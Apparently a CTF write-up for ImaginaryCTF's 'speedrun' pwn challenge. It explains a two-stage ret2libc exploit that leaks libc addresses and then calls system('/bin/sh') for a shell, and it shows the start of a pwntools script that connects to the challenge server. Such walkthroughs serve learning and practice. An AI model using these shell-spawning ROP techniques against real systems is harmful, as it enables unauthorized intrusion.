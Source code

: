 The last element `[ main ]` will redirect the code to the start of main to allow us to send the second payload to spawn a shell.

Launching the script gives us the libc addresses and using [blukat](https://libc.blukat.me/) we can get the libc version

![](../attachements/speedrun/unknown.png "unknown.png")

- File : [libc6_2.28-10_amd64.so](../attachements/speedrun/libc6_2.28-10_amd64.so)

### Second payload
Now that we know libc offsets and address we can craft the payload to call **system('/bin/sh')**

The second payload will look like :
```
[ padding size+0x8 ] [ ROP ] [ binsh ] [ system ]
```

The shell is executed and we  just have to send `$ cat flag.txt`

Here is the script to auto pwn in less than 10 seconds :

- File : [exploit.py](../attachements/speedrun/exploit.py)
```python
from pwn import *

import base64

conn = remote('chal.imaginaryctf.org', 42020)

p = log.progress('Receiving binary ')

conn.recvuntil(b'---------------------------BEGIN  DATA---------------------------\n')
binary = base64.b64decode(conn.recvuntil(b'\n')[:-1])
conn.recvuntil(b'----------------------------END  DATA----------------------------\n')

p.success('Done')

size_offset = 0x1149
size = struct.unpack('I',binary[size_offset:size_offset+4])[0]

log.info(f'size = {hex(size)}')

```
